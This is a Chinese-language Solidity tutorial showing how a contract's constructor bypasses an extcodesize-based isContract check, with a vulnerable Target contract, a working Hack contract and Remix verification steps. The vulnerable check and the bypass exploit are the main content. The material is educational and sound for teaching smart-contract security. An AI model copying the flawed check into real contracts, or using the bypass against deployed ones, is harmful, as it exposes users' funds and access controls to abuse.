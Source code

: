 # 79.Bypass Contract Size Check
## 漏洞
如果一个地址是一个合约，那么存储在该地址的代码大小肯定大于0，对吧？

让我们看看如何创建一个代码大小由extcodesize返回的合约等于0的合约。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Target {
    function isContract(address account) public view returns (bool) {
        // 该方法依赖于extcodesize函数，对于正在构建中的合约，该函数返回0，因为代码只在构造函数执行结束时存储。
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    bool public pwned = false;

    function protected() external {
        require(!isContract(msg.sender), "no contract allowed");
        pwned = true;
    }
}

contract FailedAttack {
    // 尝试调用Target.protected将失败，
    // Target阻止从合约调用
    function pwn(address _target) external {
        // 这将失败
        Target(_target).protected();
    }
}

contract Hack {
    bool public isContract;
    address public addr;

    // 当合约正在创建时，代码大小（extcodesize）为0。
    // 这将绕过isContract()检查
    constructor(address _target) {
        isContract = Target(_target).isContract(address(this));
        addr = address(this);
        //这将起作用
        Target(_target).protected();
    }
}
```

## remix验证
1. 部署Target合约，调用 isContract函数输入一个合约地址，查看结果
![79-1.jpg](img/79-1.jpg)
2. 部署FailedAttack合约，调用pwn函数输入上一步的Target合约地址，验证是否成功
![79-2.jpg](img/79-2.jpg)
3. 部署Hack合约，将Target合约地址作为参数传入构造函数。Hack合约的构造函数调用Target.isContract()方法，但此时Hack合约的代码大小为0，因此isContract()方法返回false。
![79-3.jpg](img/79-3.jpg)
4. Hack合约的构造函数调用Target.protected()方法，由于调用者是一个地址而不是合约，因此调用成功并将pwned变量设置为true。查看Target合约的pwned变量，应该为true，说明攻击成功。
![79-4.jpg](img/79-4.jpg)